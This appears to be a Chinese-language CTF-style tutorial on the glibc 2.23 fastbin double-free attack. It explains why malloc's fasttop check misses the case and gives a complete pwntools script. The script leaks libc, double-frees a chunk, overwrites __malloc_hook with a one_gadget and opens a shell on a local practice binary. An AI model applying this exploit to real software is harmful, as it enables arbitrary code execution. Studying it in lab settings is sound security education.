

# fastbin double free

## 1.基本原理

```c
/* Check that the top of the bin is not the record we are going to
   add (i.e., double free).  */
if (__builtin_expect (old == p, 0))
  malloc_printerr ("double free or corruption (fasttop)");
```

free fastbin 时，这里只检查了 top fastbin，即是仅验证了 main_arena 直接指向的块，即链表指针头部的块。对于链表后面的块，并没有进行验证（old 就是表头第一个 freed chunk, p 是当前要 free 的 chunk. 如果这两个相等, 就说明 连续 free 了两次相同的 chunk）

所以可以按照下面思路进行伪造，整体思路与上一个 fastbin attack 差不多, 只是在写入 target 的时候 chunk1 在 ptmalloc 看起来是 allocated 的，可以 edit 的

即只有分配到用户的 chunk 才可以 edit



## 2.利用思路

漏洞程序参考漏洞程序参考 unsortedbin leak 的测试程序

```py
from pwn import *
# patchelf --set-interpreter new_ld_address file_path
# patchelf --replace-needed old_libc.so.6 new_libc.so.6 file_path
# pycharm # ctrl+/

# local pwn
elf_path = './test'
elf = ELF(elf_path)
libc = ELF('/home/ubuntu/tools/glibc-all-in-one/libs/2.23-0ubuntu11.3_amd64/libc.so.6')
context(arch=elf.arch, os=elf.os, log_level="debug")
p = process([elf_path])

#-----------------------------------------------------------------------------------------
it      = lambda                    :p.interactive()
sd      = lambda data               :p.send((data))
sa     	= lambda delim,data         :p.sendafter((delim), (data))
sl      = lambda data               :p.sendline((data))
sla     = lambda delim,data         :p.sendlineafter((delim), (data))
r       = lambda numb=4096          :p.recv(numb)
ru      = lambda delims, drop=False :p.recvuntil(delims, drop)
l       = lambda str1               :log.success(str1)
li      = lambda str1,data1         :log.success(str1+' ========> '+hex(data1))
uu32    = lambda data               :u32(data.ljust(4, b"\x00"))
uu64    = lambda data               :u64(data.ljust(8, b"\x00"))
u32Leakbase = lambda offset         :u32(ru(b"\xf7")[-4:]) - offset
u64Leakbase = lambda offset         :u64(ru(b"\x7f")[-6:].ljust(8, b"\x00")) - offset
#-----------------------------------------------------------------------------------------

def add_chunk(index, size):
    sa(b"choice:\n", b"1")
    sa(b"index:\n", str(index).encode())
    sa(b"size:\n", str(size).encode())

def delete_chunk(index):
    sa(b"choice:\n", b"2")
    sa(b"index:\n", str(index).encode())

def edit_chunk(index, content):
    sa(b"choice:\n", b"3")
    sa(b"index:\n", str(index).encode())
    sa(b"length:\n", str(len(content)).encode())
    sa(b"content:\n", content)

def show_chunk(index):
    sa(b"choice:\n", b"4")
    sa(b"index:\n", str(index).encode())

def exit_p():
    sa(b"choice:\n", b"5")

add_chunk(3, 0x100)
add_chunk(4, 0x100)

# leak libc
delete_chunk(3)
add_chunk(3, 0x100)
show_chunk(3)
main_arena_addr = u64Leakbase(0)
li("main_arena_addr", main_arena_addr)
libc_addr = main_arena_addr - 0x3c4b78
libc.address = libc_addr
li("libc_addr", libc_addr)

add_chunk(0, 0x68)
add_chunk(1, 0x68)
delete_chunk(0)
delete_chunk(1)
delete_chunk(0)

# ➜  fastbin one_gadget /home/ubuntu/tools/glibc-all-in-one/libs/2.23-0ubuntu11.3_amd64/libc.so.6
# 0x4527a execve("/bin/sh", rsp+0x30, environ)
# constraints:
#   [rsp+0x30] == NULL || {[rsp+0x30], [rsp+0x38], [rsp+0x40], [rsp+0x48], ...} is a valid argv
#
# 0xf03a4 execve("/bin/sh", rsp+0x50, environ)
# constraints:
#   [rsp+0x50] == NULL || {[rsp+0x50], [rsp+0x58], [rsp+0x60], [rsp+0x68], ...} is a valid argv
#
# 0xf1247 execve("/bin/sh", rsp+0x70, environ)
# constraints:
#   [rsp+0x70] == NULL || {[rsp+0x70], [rsp+0x78], [rsp+0x80], [rsp+0x88], ...} is a valid argv

one_gadget = libc.address + [0x4527a, 0xf03a4, 0xf1247][2]

add_chunk(0, 0x68)
edit_chunk(0, p64(libc.sym['__malloc_hook'] - 0x23))
add_chunk(0, 0x68)
add_chunk(0, 0x68)
add_chunk(0, 0x68)

payload = b""
payload += 0x13 * b"a"
payload += p64(one_gadget)
edit_chunk(0, payload)

add_chunk(0,0x100)

it()
```

